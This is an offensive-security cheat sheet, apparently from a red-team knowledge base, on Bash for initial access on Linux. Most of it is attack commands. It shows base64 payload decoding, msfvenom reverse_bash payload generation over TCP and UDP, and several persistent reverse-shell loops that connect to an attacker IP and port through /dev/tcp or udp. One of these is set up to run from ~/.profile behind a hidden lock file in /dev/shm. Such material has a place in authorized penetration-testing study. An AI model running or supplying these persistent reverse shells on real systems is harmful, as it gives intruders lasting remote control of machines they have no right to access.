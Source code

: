 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Bash

> [!INFO] [Character Maximum Limit](https://www.cyberciti.biz/faq/linux-unix-arg_max-maximum-length-of-arguments/)
> The maximum length of characters is a total of **2090326** when executing through a shell. Running `xargs` provides the default buffer length limit:
> ```
$ xargs --show-limits --no-run-if-empty </dev/null
Your environment variables take up 2389 bytes  
POSIX upper limit on argument length (this system): 2092715  
POSIX smallest allowable upper limit on argument length (all systems): 4096  
Maximum length of command we could actually use: 2090326  
Size of command buffer we are actually using: 131072  
Maximum parallelism (--max-procs must be no greater): 2147483647
> ```
> Even `ARG_MAX` environment variable can determine the limit of arguments.

## 01 - Common Files

```
/bin/bash
/usr/bin/bash
```

## 02 - Base64 Encoded

You can encode it with base64 then execute it.

```
$ echo <base64_payload> | base64 -d

$ echo <base64_payload> | basenc --base64 -d
```

## 03 - Generate Payload

### 3.1 - TCP Protocol

```
$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>
```

### 3.2 - UDP Protocol

```
$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>
```

## 04 - Execute Payloads

### 4.1 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/payload; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 10; done

$ setsid bash -c 'while :; do bash -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 360; done' &>/dev/null
```

Prevents multiple instances while written in `~/.profile`.

```
$ fuser /dev/shm/.busy &>/dev/null || nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1 ; sleep 360; done' &>/dev/null &
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)